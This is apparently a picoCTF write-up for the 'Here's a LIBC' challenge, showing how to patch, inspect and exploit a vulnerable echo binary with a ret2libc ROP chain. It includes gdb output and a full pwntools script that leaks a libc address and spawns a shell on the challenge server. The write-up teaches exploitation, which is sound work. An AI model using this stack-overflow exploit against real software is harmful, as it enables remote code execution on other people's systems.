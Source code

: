 ### Here's a LIBC

Download the files and run `./vuln`.

```bash
➜  Here's a LIBC git:(main) ✗ chmod + * && ./vuln 
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

To fix it, we run `patchelf`.

```bash
patchelf --set-rpath ./libc.so.6 ./vuln
```

```bash
➜  Here's a LIBC git:(main) ✗ ./vuln 
WeLcOmE To mY EcHo sErVeR!
```

#### Protections 🛡️

Run `checksec` inside `gdb`.

```bash
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Here's a LIBC/vuln'
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L8764 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

| Protection | Enabled     | Usage                                         |
| :--------- | :---------- | :-------------------------------------------- |
| **Canary** | ❌           | Prevents **Buffer Overflows**                 |
| **NX**     | ✅           | Disables **code execution** on stack          |
| **PIE**    | ❌           | Randomizes the **base address** of the binary |
| **RelRO**  | **Partial** | Makes some binary sections **read-only**      |

Fuzzing the program a bit, we find that it's vulnerable to buffer overflow because after some "A"s, a `Segmentation Fault` occurs.

```bash
➜  Here's a LIBC git:(main) ✗ ./vuln
WeLcOmE To mY EcHo sErVeR!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaaaaaaaaaaaaaaaaaaaaad
[1]    4945 segmentation fault (core dumped)  ./vuln
```

We have the `libc`, `PIE` and `Canary` are disabled, so we can easily perform a `ret2libc` attack.

What we need to do:

- Find the overflow offset to overwrite the return address.
- Call `puts(puts@GOT)` to leak a libc address and calculate libc base.
- Redirect to `main()` again to trigger another buffer overflow.
- Call `system("/bin/sh");` now that we know `libc base`.

To find the offset we create a pattern inside `gdb` and then run the program.

```bash
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```

```gdb
0x007fffffffdd98│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"	 ← $rsp
0x007fffffffdda0│+0x0008: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
0x007fffffffdda8│+0x0010: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x007fffffffddb0│+0x0018: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x007fffffffddb8│+0x0020: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x007fffffffddc0│+0x0028: "waaaaaaaxaaaaaaayaaaaaaa"
0x007fffffffddc8│+0x0030: "xaaaaaaayaaaaaaa"
0x007fffffffddd0│+0x0038: "yaaaaaaa"
───────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop    
     0x40076f <do_stuff+151>   leave  
 →   0x400770 <do_stuff+152>   ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset raaaaaaasaaaaaaataaa
[+] Searching for 'raaaaaaasaaaaaaataaa'
[+] Found at offset 136 (big-endian search)
```

We found the offset at `136` bytes.

Now the first payload to leak should look like this:

```python
e      = ELF(fname)
rop    = ROP(e)

# Craft payload to leak puts@GOT and return to main()
rop.call('puts', [e.got.puts])

payload = flat({
  0x88: rop.chain() + p64(e.sym.main)
 })

r.sendline(payload)
r.recvlines(2)
print(r.recvline())
```

```bash
➜  Here's a LIBC git:(main) ✗ python solver.py
[+] Starting local process './vuln': pid 9054
[*] "/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Here's a LIBC/vuln"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'./libc.so.6'
[*] "/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Here's a LIBC/libc.so.6"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './vuln'
b'\xd0\x0e\xe8\xe3\x84\x7f\n'
[*] Stopped process './vuln' (pid 9054)
```

We managed to leak a `libc address`. Now we calculate `libc base` and call `system("/bin/sh");`.

The final payload should look like this:

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './vuln' 

LOCAL = False

if LOCAL:
  r    = process(fname)
  libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
  r    = remote('mercury.picoctf.net', 37289)
  libc = ELF('./libc.so.6')

e      = ELF(fname)
rop    = ROP(e)

# ret2libc leak
rop.call('puts', [e.got.puts])

payload = flat({
  0x88: rop.chain() + p64(e.sym.do_stuff)
 })

r.sendline(payload)

libc.address = u64(r.recvline_contains('\x7f').strip().ljust(8, b'\x00')) - libc.sym.puts
success(f'Libc base: {libc.address:#04x}')

# ret2libc
rop = ROP(libc, base=libc.address)
rop.call(rop.ret[0])
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = flat({
  0x88: rop.chain()
 })

r.sendline(payload)

r.interactive()
```

```bash
➜  Here's a LIBC git:(main) ✗ python solver.py
[+] Opening connection to mercury.picoctf.net on port 37289: Done
[*] "/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Here's a LIBC/libc.so.6"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] "/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Here's a LIBC/vuln"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'./libc.so.6'
[*] Loaded 14 cached gadgets for './vuln'
[+] Libc base: 0x7fccd29bd000
[*] Loaded 198 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
AaAaBaAaCaAaDaAaEaAaFaAaGaAaHaAaIaAaJaAaKaAaLaAaMaAaNaAaOaAaPaAaQaAaRaAaSaAaTaAaUaAaVaAaWaAaXaAaYaAazaabbaabcaabdaabeaabd
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
```



